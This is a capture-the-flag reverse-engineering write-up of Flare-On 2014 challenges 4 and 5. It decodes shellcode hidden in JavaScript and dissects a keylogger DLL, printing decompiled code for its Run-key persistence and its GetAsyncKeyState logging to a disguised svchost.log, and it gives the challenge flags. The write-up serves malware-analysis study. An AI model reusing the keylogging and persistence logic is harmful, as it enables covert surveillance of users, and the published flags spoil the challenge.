- After some code reading and research i found that `string_variable_4` is the var which has next stage shellcode but it is encoded in some format in js so i did research and this is what i found,
- The `unescape()` function replaces any escape sequence with the character that it represents. Specifically, it replaces any escape sequence of the form `%XX` or `%uXXXX` (where `X` represents one hexadecimal digit) with the character that has the hexadecimal value `XX`/`XXXX`. If the escape sequence is not a valid escape sequence (for example, if `%` is followed by one or no hex digit), it is left as-is.



- So to decode this i used cyberchef, and we have to convert the endianness because it is being written in heap so we will swap it by `word length of 8`. 
- We will save this as `shellcode.bin`



- CyberChef Recipe,

```json
[
  { "op": "Find / Replace",
    "args": [{ "option": "Simple string", "string": "%u" }, "", true, false, true, false] },
  { "op": "Swap endianness",
    "args": ["Hex", 2, true] },
  { "op": "From Hex",
    "args": ["Auto"],
    "disabled": true }
]
```
## Stage 2 Analyzing Shellcode 

### Initial Triage

- File Type: data
- Size: 1 KB
- SHA256: 71d7690eaab011871f8e957c354e96baa16ed14ddcf719caf0776917b5eebe2d
### Basic Static Analysis

- I quickly check VT for this hash and only 1 out of 54 which means this can be obfuscated and some spoofy things,



- For simplicity i used tool [flare-floss](https://github.com/mandiant/flare-floss) for intelligent string analysis and here is what i found,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~]
└─$ /opt/floss shellcode.bin --format sc32

INFO: floss: extracting static strings
finding decoding function features: 100%|█████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 126.37 functions/s, skipped 0 library functions]
INFO: floss.stackstrings: extracting stackstrings from 1 functions
INFO: floss.results: LoadLibraryA
INFO: floss.results: user32
INFO: floss.results: MessageBoxA
INFO: floss.results: OWNED!!!
INFO: floss.results: 2OWNED!!!
INFO: floss.results: OWNE
INFO: floss.results: ExitProcessb
extracting stackstrings: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 28.02 functions/s]
INFO: floss.tightstrings: extracting tightstrings from 0 functions...
extracting tightstrings: 0 functions [00:00, ? functions/s]
INFO: floss.string_decoder: decoding strings
decoding strings: 100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 85.55 functions/s]
INFO: floss: finished execution after 7.19 seconds
INFO: floss: rendering results


FLARE FLOSS RESULTS (version v3.1.1-0-g3cd3ee6)

.
.
.

 ───────────────────────────
  FLOSS STATIC STRINGS (31)
 ───────────────────────────

+----------------------------------+
| FLOSS STATIC STRINGS: ASCII (31) |
+----------------------------------+

rIF%
xsq}
$~|C
.
.
.
hess
hProchExitT
T$@W


+------------------------------------+
| FLOSS STATIC STRINGS: UTF-16LE (0) |
+------------------------------------+


 ─────────────────────────
  FLOSS STACK STRINGS (7)
 ─────────────────────────

LoadLibraryA
user32
MessageBoxA
OWNED!!!
2OWNED!!!
OWNE
ExitProcessb

 ─────────────────────────
  FLOSS TIGHT STRINGS (0)
 ─────────────────────────
 ───────────────────────────
  FLOSS DECODED STRINGS (0)
```

- There are some interesting stack strings, 
	- `LoadLibraryA` : loads required Windows DLLs at runtime
	- `MessageBoxA` : displays a message box (proof of code execution)
	- `ExitProcess` : - cleanly terminates the program after execution
- And some string so we will look that later,
### Advance Static Analysis

- To analyze this shellcode, i can use `cutter` so i simply paste shellcode in `cutter` and analyze the assembly,



- In this disassembler, there are 2 functions, `fcn.00000000` and `fcn.0000035e`,
- `fcn.00000000` looks very large and messy,



- I analyze some part of `fcn.00000000` and i found that it is loading some strings in stack for some purpose as we discuss earlier,

![[Learning/DFIR & MARE/Reverse Engineering/Flare-On/2014/images/Pasted image 20260118140837.png]]

- So i look at the `fcn.0000035e` function and i found that,
	- It is **building encrypted data on the stack and decrypting it in place using XOR**, so the real strings only exist in memory at runtime.



- Here is the script that do whole decryption and transformation of hex and convert it to ascii,

```py
# XOR operations
xor_pairs = [
    (0x32fba316, 0x32bece79),
    (0x48cf45ae, 0x2be12bc1),
    (0xd29f3610, 0xfffa4471),
    (0x0ca9a9f7, 0x60cfe984),
    (0x43a993be, 0x3798a3d2),
    (0x3b628a82, 0x4b11a4ef),
    (0xccc047d6, 0xffa469be),
    (0x3154caa3, 0x5265abd4)
]

# Calculate XOR results
xor_results = [val1 ^ val2 for val1, val2 in xor_pairs]
print("XOR Results:", [f"0x{r:08x}" for r in xor_results])

# Combine into single hex string
combined_hex = ''.join([f"{result:08x}" for result in xor_results])
print(f"Combined: {combined_hex}")

# Convert to bytes and reverse
hex_bytes = bytes.fromhex(combined_hex)
reversed_bytes = hex_bytes[::-1]

# Convert to ASCII
output = reversed_bytes.decode('ascii', errors='replace')
print(f"Output: {output}")
```

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ python decr.py

XOR Results: ['0x00456d6f', '0x632e6e6f', '0x2d657261', '0x6c664073', '0x7431306c', '0x70732e6d', '0x33642e68', '0x63316177']
Combined: 00456d6f632e6e6f2d6572616c6640737431306c70732e6d33642e6863316177
Output: wa1ch.d3m.spl01ts@flare-on.comE
```

- Here is the flag using static method,

```yml
wa1ch.d3m.spl01ts@flare-on.com
```
### Advance Dynamic Analysis

```asm
0x00000359      call    fcn.0000035e ; fcn.0000035e ;  fcn.0000035e(int64_t arg1)
fcn.0000035e(int64_t arg1);
; arg int64_t arg1 @ rdi
; var int64_t var_65h @ stack - 0x65
; var int64_t var_48h @ stack - 0x48
; var int64_t var_40h @ stack - 0x40
0x0000035e      mov     edx, dword [rsp]
0x00000361      xor     dword [rdx + 0xb], 0x32fba316
0x00000368      push    0x32bece79
0x0000036d      xor     dword [rdx + 0x17], 0x48cf45ae
0x00000374      push    0x2be12bc1
0x00000379      xor     dword [rdx + 0x23], 0xd29f3610
0x00000380      push    0xfffffffffffa4471
0x00000385      xor     dword [rdx + 0x2f], 0xca9a9f7
0x0000038c      push    0x60cfe984
0x00000391      xor     dword [rdx + 0x3b], 0x43a993be
0x00000398      push    0x3798a3d2
0x0000039d      xor     dword [rdx + 0x47], 0x3b628a82
0x000003a4      push    0x4b11a4ef
0x000003a9      xor     dword [rdx + 0x53], 0xccc047d6
0x000003b0      push    0xffffffffffa469be
0x000003b5      xor     dword [rdx + 0x5f], 0x3154caa3
0x000003bc      push    0x5265abd4
0x000003c1      mov     ecx, esp
```

- This is how it works,
- Now you might think that doing XOR first and then push value which is kind of reverse Because,
	- It happens because **the shellcode modifies its own instructions in memory**.
	- The values you see in `push 32BECE79` are **encrypted operands**. 
		- Before that instruction executes, the shellcode does:

```asm
xor dword ptr [edx+offset], key
```

- This XOR **rewrites the PUSH instruction itself** in memory.
- So when execution later reaches that instruction, the CPU fetches **the modified bytes**, not the original ones.
- That’s why:

```asm
push 32BECE79 → becomes → push 00456D6F
```




#### Flag Extraction

- By putting breakpoint on `004013C1` we can see that `esp` is point to out flag so i do follow in dump for `esp` and i got the flag.

```asm
004013C1 | 8BCC                     | mov ecx,esp                             
```



- Alon with flag we get those strings also which we got using floss, which are used to prompt a message box with some random text,

```
0019FF1C   77 61 31 63 68 2E 64 33 6D 2E 73 70 6C 30 31 74  wa1ch.d3m.spl01t
0019FF2C   73 40 66 6C 61 72 65 2D 6F 6E 2E 63 6F 6D 45 00  s@flare-on.comE
0019FF3C   5E 13 40 00 4F 57 4E 45 44 21 21 21 00 00 00 00  ^.@.OWNED
0019FF4C   4D 65 73 73 61 67 65 42 6F 78 41 00 75 73 65 72  MessageBoxA.
0019FF5C   33 32 00 00 4C 6F 61 64 4C 69 62 72 61 72 79 41  32..LoadLibraryA
```

- Here is out Flag, 😗 

```yml
wa1ch.d3m.spl01ts@flare-on.com
```



# Challenge 5: 

## Stage 1 Analyzing PE File

### Initial Triage


- File Type: 5get_it: PE32 executable for MS Windows 5.01 (DLL), Intel i386, 4 sections
- Size: 99KB
- SHA256: 2225b6966b9baae11ee5a8412201b30fd72c4a10e92727d92acf5ea6b5df9176

### Basic Static Analysis

- Just quick VT search,
	- It gives **48/69** hits so it is malicious and marked `KeyLogger` so maybe some keystroke things will be there,



- Detect it Easy is showing that it is written in `C++` and compiled with Visual Studio (2010).
	- Also it is not packed because entropy is nomal,




- Now we can analyze this binary with `pestudio` to get more idea,
- In-fact, it gives lots of info such as,
	- Our sample is a `32 bit DLL` file with entry point address of `0x0000B186` and size of `101376 Bytes`. 
	- And this binary compiled in `2014`.


- Now some silly floss things to see any interesting strings, 
	- it quite big and lots things are there so let's break it down and show you some stuff.

- As i said previously, this are some keystrokes,
	- And to store them it impersonate the `svchost` a legit process's log file which is `svchost.log`,

```json
[SHIFT]
[RETURN]
[BACKSPACE]
[TAB]
[CTRL]
[DELETE]
[CAPS LOCK]
GetAsyncKeyState
svchost.log
```

- It is a Keyboard + file write combo
	- capture keystroke → write to file → flush.

```bash
GetAsyncKeyState
WriteFile
CreateFileA/W
FlushFileBuffers
SetFilePointer
```

- Some registry keys used to do persistence with it's related Windows APIs,

```bash
SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SOFTWARE\Microsoft\Windows\CurrentVersion\Run
RegCloseKey
RegQueryValueExA
RegOpenKeyExA
RegSetValueExA
RegCreateKeyA
```

- Something with DLL stuff,
	- It references `c:\windows\system32\svchost.dll` and `svchost.log` but there is no such file (Windows has `svchost.exe` in that location).
	- There is also `c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll` which means this file is most probably a DLL and should be executed like that. 
	- There are no parameters, so whatever this DLL is doing should be in `DllMain`.

```bash
c:\windows\system32\svchost.dll
c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll
```

- Windows APIs related to Anti-Analysis Technique,

```bash
IsDebuggerPresent
Sleep
QueryPerformanceCounter
```

- Finally, FLOSS decoded strings,

```bash
Courier New
DDNDNNNNDND
.
.
.
FLARE ON!
```

- So only based on these basic analysis, we take overview of malware that how it could behave which helps us in advance analysis.
### Advance Static Analysis

- Now Buckle down because we jumping into IDA for some low level stuff,
- As i said previously, there is only one export which is `DLLEntryPoint`,
- The Windows loader calls the DLL’s entry point defined in the PE Optional Header, which in MSVC-built DLLs is typically `DllMainCRTStartup` (often labeled as `DLLEntryPoint` by IDA).
- And this `DllMainCRTStartup` will call `DLLMain`. 

```yml
Here is the flow,
----------------------
Windows Loader
   ↓
AddressOfEntryPoint
   ↓
__DllMainCRTStartup
   ↓
DllMain
----------------------

More Technically it do these process,

ntdll!LdrLoadDll
    ↓
ntdll!LdrpCallInitRoutine
    ↓
PE.OptionalHeader.AddressOfEntryPoint
    ↓
__DllMainCRTStartup   ← CRT
    ↓
DllMain               ← user code

```

- Here is the crux explanation, 
	- When a DLL is loaded, `ntdll!LdrLoadDll` maps it into memory, `LdrpCallInitRoutine` decides initialization, the loader jumps to the PE’s `AddressOfEntryPoint` (usually `__DllMainCRTStartup`), which initializes the C runtime (TLS, heap, SEH, globals) and finally calls the user-defined `DllMain` under the loader lock.



- Here is the `DLLMain` Called,



- Now this `DLLMain` is calling other bunch of other functions, 
- Here is function tree,
	- sub_1000A570() - Doing Persistence by adding key in Registry
	- sub_1000A610() - Checking the Key already present of not
	- sub_1000AD77() - nothing important..
	- sub_1000A4C0() - Just adding some noise to delay the process 
		- sub_10009EB0 - Switch Case with all ASCII Chars
			- sub_10009AF0() - Case of Char 'M'
				- sub_10009AF0() - Hidden Function
		- sub_10001000



#### `sub_1000A570` function,

- First i analyzed the `sub_1000A570` function,



- Inside the function we encounter [RegOpenKeyEx](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724897%28v=vs.85%29.aspx) that opens a registry key. 
- Full registry key is a combination of `hKey` and `lpSubKey`. `hKey` can be one of the [predefined keys](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724836%28v=vs.85%29.aspx). 
- The constants for the predefined keys needed a bit of googling because the MSDN page didn't list them. Here they are:  

```bash
| Key                 | Constant |
|---------------------|----------|
| HKEY_CLASSES_ROOT   |    0     |
| HKEY_CURRENT_USER   |    1     |
| HKEY_LOCAL_MACHINE  |    2     |
| HKEY_USERS          |    3     |
| HKEY_CURRENT_CONFIG |    5     |
```

```cpp
v3 = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, 1u, &phkResult);
```

- Here is the arguments and if we map with MSDN function then it looks like this,

```c
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,        // HKEY_LOCAL_MACHINE (0x80000002)
  [in, optional] LPCSTR lpSubKey,     // "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
  [in]           DWORD  ulOptions,    // 0
  [in]           REGSAM samDesired,   // KEY_QUERY_VALUE (0x0001)
  [out]          PHKEY  phkResult     // &phkResult
);

```

- So if we move further,
- If function succeeds it will return `ERROR_SUCCESS` which is 0 according to [this page](http://msdn.microsoft.com/en-us/library/windows/desktop/ms681382%28v=vs.85%29.aspx), otherwise it will return another error code. 
- `db 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run',0` in `.rdata` section.
- The binary will check if it has access to registry at that path. 
- If so then the return value (in eax) will be 0 and it will jump right (JZ will succeed).


```c
v3 = RegQueryValueExA(phkResult, "svchost", 0, 0, Data, &cbData);
```

- Here is the arguments and if we map with MSDN function then it looks like this,

```c
LSTATUS RegQueryValueExA(
  [in]                HKEY    hKey,        // phkResult
  [in, optional]      LPCSTR  lpValueName, // "svchost"
                      LPDWORD lpReserved,  // 0
  [out, optional]     LPDWORD lpType,      // 0
  [out, optional]     LPBYTE  lpData,      // Data
  [in, out, optional] LPDWORD lpcbData     // &cbData
);
```

- [RegQueryValueEx](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724911%28v=vs.85%29.aspx) checks if there is a registry key at an open path. 
- It is looking for a registry key named `svchost` at that path. If such key exists, function will return 0.
- In this case, it returned 2 which stands for `ERROR_FILE_NOT_FOUND` meaning there was no such key. 
- Then it will call [RegCloseKey](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724837%28v=vs.85%29.aspx) and closes the open registry path. This function's return value is saved in `var_110` (we will need it later):

```bash
|           Condition          |         Return Value          |
|------------------------------|-------------------------------|
|Registry key cannot be opened |               1               |
|Registry key does not exist   |               2               |
|Registry key exists           | 1000A6BB or DllMain(x,x,x)+3B |
```

- This DLL is **self-installing malware** that checks whether it already has persistence, installed itself if not, disguises itself as `svchost`, registers itself to run at every system startup via the Windows Run registry key, executes itself using `rundll32`, hides its console, and then enters an infinite loop performing its main malicious activity.
- Now it calls `sub_1000A610`,

#### `sub_1000A610` function,

- Now this `sub_1000A610` similar as previous and here is pseudocode, 

```c
int __cdecl sub_1000A610(BYTE *lpData)
{
  size_t v1; // eax
  HKEY phkResult[2]; // [esp+4h] [ebp-8h] BYREF

  if ( RegCreateKeyA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", phkResult) )
    return 1;
  v1 = strlen((const char *)lpData);
  RegSetValueExA(phkResult[0], "svchost", 0, 1u, lpData, v1);
  phkResult[1] = 0;
  return 0;
}
```



- We see that it is calling `GetModuleHandleEx` for `sub_1000A610` and checks the return value .
- The return value for [GetModuleHandleEx](http://msdn.microsoft.com/en-us/library/windows/desktop/ms683200%28v=vs.85%29.aspx) will be non-zero, otherwise it will be zero. If call was not successful then last error will be printed to file.





- If `GetModuleHandleEx` was successful it will land here. 
- [GetModuleFileName](http://msdn.microsoft.com/en-us/library/windows/desktop/ms683197%28v=vs.85%29.aspx) is called which will return the full path for the specified module in `hModule`. 
- In this case, the binary retrieves its own path and saves it in `[ebp+Filename]`.in return value of `sub_1000A570` is compared with 2.
- If registry key did not exist, we will continue.
- We have already seen the strings being loaded. 
- Then `CopyFileA` is called to copy itself to `c:\\windows\\system32\\svchost.dll`.
- It `c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll` to the stack and calls `sub_1000A610` .
- Based on this string and checking for existence of the registry key we can guess what is going to happen in this function.
- Inside this function we see that [RegCreateKey](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724842%28v=vs.85%29.aspx) to open `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`. If the key does not exist, it will create it.
- If call was successful, execution continues. 
- It is adding a new registry key named `svchost` to that path with the specified value. Then function will return with the result value of `RegSetValueEx`. 
- If it was successful, it will be 0.
<br>
- **The Dll copied itself to system32 and it will run every time Windows starts**.

#### `sub_1000A4C0` Function

- Runs forever and repeatedly performs random‑count tasks using data returned by another function, with artificial delays and memory allocation used **mainly for noise / evasion**.
- In short just not usefull.

```c
void __noreturn sub_1000A4C0()
{
  char *Buffer; // [esp+0h] [ebp-14h]
  int v1; // [esp+4h] [ebp-10h]
  void *v2; // [esp+8h] [ebp-Ch]
  __int16 v3; // [esp+Ch] [ebp-8h]

  while ( 1 )
  {
    v1 = rand() % 200 + 50;
    v2 = malloc(15 * v1);
    memset(v2, 0, 15 * v1);
    Sleep(0xAu);
    v3 = 0;
    while ( v3 < v1 )
    {
      Sleep(0xAu);
      Buffer = (char *)sub_10009EB0();
      if ( Buffer )
      {
        sub_10001000(Buffer);
        ++v3;
      }
    }
  }
}
```

##### `sub_10009EB0` function,




- This loop is **Scanning all keyboard keys to detect which key is pressed.**
- Loops through all virtual key codes from 8 to 222 and stops when it finds which key the user pressed.
- A classic keylogger polling logic.
- Here is mapping table of keystrokes and value,

```c
SHORT GetAsyncKeyState(
  [in] int vKey // The virtual-key code
);
```

| VK (Virtual key codes) | Value   |
| ---------------------- | ------- |
| VK_BACK                | 8       |
| VK_TAB                 | 9       |
| VK_RETURN              | 13      |
| VK_SHIFT               | 16      |
| VK_CONTROL             | 17      |
| VK_MENU (Alt)          | 18      |
| VK_ESCAPE              | 27      |
| 'A' - 'Z' or 'a' - 'z' | 65–90   |
| F1–F12                 | 112–123 |

```c
for ( i = 8; ; ++i )
{
	if ( i > 222 )
	  return 0;
	if ( GetAsyncKeyState(i) == 0xFFFF8001 )
	  break;
	  .
	  .
	  .
```

- After getting that pressed key, we just pass it to switch case which will further call some functions,
- And those functions are nothing but just a wrapper which return same character,





- if given input is NOT a normal character then it goes to 2nd switch case,



```c
v1 = i - 8;
switch (i)
{
	case 8:
	....
	case 190:
}
```

- Final crux of this function, 
- And one importent thing,
	- This function is a **keystroke dispatcher**, not a string collector.
	- It means this whole process happens for one char only and function return and execution goes to next function which is `sub_10001000(Buffer);`, 

```yml
wait until user presses a key

if key is a letter/number/symbol:
    return that character
else if key is Enter / Backspace / Space / Shift:
    handle that action
else:
    ignore and keep waiting
```

##### `sub_10001000` function

- Writes the received character into a file called `svchost.log`.
- And this whole process happens with that `sub_1000A4C0` function sleep time or just delay to make it stealth.

```c
int __cdecl sub_10001000(char *Buffer)
{
  FILE *Stream; // [esp+0h] [ebp-4h]

  for ( Stream = 0; !Stream; Stream = fopen("svchost.log", "a+") )
    Sleep(0xAu);
  fputs(Buffer, Stream);
  fclose(Stream);
  return 1;
}
```

- Now what about flag,
- Here is some puzzle thing, 
	- This function is for char 'M' and it has hidden logic,
	- `sub_10001240` hidden function





```c
const char *sub_10009AF0()
{
  if ( dword_100194FC > 0 )
  {
    _cfltcvt_init();
    sub_10001240();
  }
  return "m";
}
```

- now this `sub_10001240()` is just printing banner with some cools ascii art,

```c
INT_PTR sub_10001240()
{
  HINSTANCE WindowLongA; // [esp+0h] [ebp-1590h]
  wchar_t v2[12]; // [esp+4h] [ebp-158Ch] BYREF
  HWND hWnd; // [esp+1Ch] [ebp-1574h]
  wchar_t v4[2728]; // [esp+20h] [ebp-1570h] BYREF
  LPARAM dwInitParam; // [esp+1570h] [ebp-20h]
  HINSTANCE hInstance; // [esp+1574h] [ebp-1Ch]
  wchar_t Source[10]; // [esp+1578h] [ebp-18h] BYREF

  hWnd = 0;
  dwInitParam = 0;
  wcscpy(v2, L"Courier New");
  wcscpy(Source, L"FLARE ON!");
  wcscpy(
    v4,
    L"_______________________________________________NDD__________________________________________________\n"
     "______________________________________________DDDDD_________________________________________________\n"
     "______________________________________________DDDDDN________________________________________________\n"
     "_____________________________________________DDDDDDD________________________________________________\n"
     "NNNNNNNNDDN________DNNN_____________________NDDDDDDDD_______________NNNNNNNNDN__________DNNNNNNNNNNN\n"
     "DDDDDDDDDDD________NDDD____________________NDDDDDDDDDN______________DDDDDDDDDDDD________DDDDDDDDDDDD\n"
     "DDDDDDDDDDD________NDDD____________________NDDDDDDDDDD______________DDDDDDDDDDDDN_______NDDDDDDDDDDD\n"
     "DDDD_______________DDDD___________________NDDDDDDDDDDDD_____________DDDD_____NDDD_______DDDD________\n"
     "DDDD_______________DDDD__________________DDDDDDD_DDDDDDN____________DDDD_____DDDD_______DDDD________\n"
     "DDDDDDDDDD_________DDDD__________________NDDDDD___DDDDDDN___________DDDDDNNNNDDDN_______DDDDDDDDDD__\n"
     "DDDDDDDDDD_________DDDD_________________DDDDDDN___DNDDDDD___________DDDDDDDDDDD_________DDDDDDDDDD__\n"
     "DDDD_______________DDDD________________DDDDDDD_____DDDDDDD__________DDDD__DDDD__________DDDD________\n"
     "DDDD_______________DDDD_______________DDDDDDD_______DDDDDDD_________DDDD__NNDDD_________DDDD________\n"
     "DDDD_______________DDDDNNNNNN_________NDDDDDN_______NDDDDDD_________DDDD___DDDDN________DDDDNNNNNNNN\n"
     "DDDD_______________DDDDDDDDDDD_______NDDDDDD_________NDDDDDD________DDDD____DDDD________DDDDDDDDDDDD\n"
     "DDDN_______________DDDDDDDDDDN______NDDDDDDDDDDDDDDD__DDDDDDD_______NDDD_____DDDD_______DDDDDDDDDDDN\n"
     "____________________________________DDDDDDDDDDDDDDDN___DDDDDDN______________________________________\n"
     "___________________________________DDDDDDDDDDDDDDD_____DDDDDDD______________________________________\n"
     "__________________________________DDDDDDDDDDDDDDN_______DDDDDDD_____________________________________\n"
     "________________________________________NDDDDDN_____________________________________________________\n"
     "_______________________________________DNDDDDN______________________________________________________\n"
     "_______________________________________DDDDD________________________________________________________\n"
     "______________________________________DDDDD_________________________________________________________\n"
     "_____________________________________DDDDD__________________________________________________________\n"
     "_____________________________________NDD____________________________________________________________\n"
     "____________________________________NDD_____________________________________________________________\n"
     "___________________________________DD_______________________________________________________________\n");
  wcscpy(&Destination, Source);
  wcscpy(&word_10017034, v2);
  wcscpy(&word_10017062, v4);
  if ( hWnd )
    WindowLongA = (HINSTANCE)GetWindowLongA(hWnd, -6);
  else
    WindowLongA = GetModuleHandleA(0);
  hInstance = WindowLongA;
  return DialogBoxIndirectParamW(WindowLongA, &hDialogTemplate, hWnd, DialogFunc, dwInitParam);
}
```

- But again it doesn't have flag so i looks up little bit and here is what i understand,
	- This program **pretends to be a keylogger**, but it is actually a **flag puzzle**.
	- There is **NO place** where the flag exists as a string.
	- The flag is **never stored**.
	- The flag is **never assembled**.
	- The flag exists **only as logic**.
- Under the hood:
	- Each key has its **own function**
	- Each function returns **one small string**
    - `"a"`
    - `"m"`
    - `"dot"`
    - `"at"`
- Some functions also **set hidden memory flags**
- Those memory flags are the **real secret**.
- Here are those variables,




- THE TRICK
	- You are NOT supposed to type the flag.
	- Typing is a decoy.
- The real flag is determined by:
	- which functions set those dword flags
	- and the order of those flags
- **I know it looks weird and tricky, but I also find it very difficult, so this is my understanding.** 
- So to do this i referred one python script by [xbyte](https://www.xbyte.mx/posts/flareon2014_-_challenge05/), so credit goes to him.
- Here is the script,

```py
#!/usr/bin/env python3

import r2pipe
import os

keys = [
    "0x10017000","0x10019460","0x10019464","0x10019468","0x1001946c",
    "0x10019470","0x10019474","0x10019478","0x1001947c","0x10019480",
    "0x10019484","0x10019488","0x1001948c","0x10019490","0x10019494",
    "0x10019498","0x1001949c","0x100194a0","0x100194a4","0x100194a8",
    "0x100194ac","0x100194b0","0x100194b4","0x100194b8","0x100194bc",
    "0x100194c0","0x100194c4","0x100194c8","0x100194cc","0x100194d0",
    "0x100194d4","0x100194d8","0x100194dc","0x100194e0","0x100194e4",
    "0x100194e8","0x100194ec","0x100194f0","0x100194f4","0x100194f8",
    "0x100194fc","0x10019500"
]

flag = ""

if os.path.isfile("5get_it.dll"):

    r2 = r2pipe.open("5get_it.dll")
    r2.cmd("aaaa")

    for key in keys:
        xrefs = r2.cmdj("axtj " + key)
        if not xrefs:
            continue

        for xref in xrefs:
            if xref.get("opcode") == f"mov dword [{key}], 1":

                fcn_called = r2.cmdj("pdfj@" + xref["fcn_name"])
                if not fcn_called:
                    continue

                for op in fcn_called.get("ops", []):
                    dis = op.get("disasm", "")
                    if "mov eax, 0x100" in dis:
                        addr = dis.split(",")[1].strip()
                        ch = r2.cmd(f"pr 1 @ {addr}")
                        flag += ch.strip()

    r2.quit()

replacements = {
    "dot": ".",
    "dash": "-",
    "at": "@"
}

for k, v in replacements.items():
    flag = flag.replace(k, v)

print(flag)

```


```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ python flag.py
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
INFO: Analyze entrypoint (af@ entry0)
INFO: Analyze symbols (af@@@s)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Analyzing methods (af @@ method.*)
INFO: Recovering local variables (afva@@@F)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Scanning for strings constructed in code (/azs)
INFO: Finding function preludes (aap)
INFO: Enable anal.types.constraint for experimental type propagation
l0gging.ur.5tr0ke5@flare-on.co
```

- Here is the falg,

```yml
l0gging.ur.5tr0ke5@flare-on.co
```
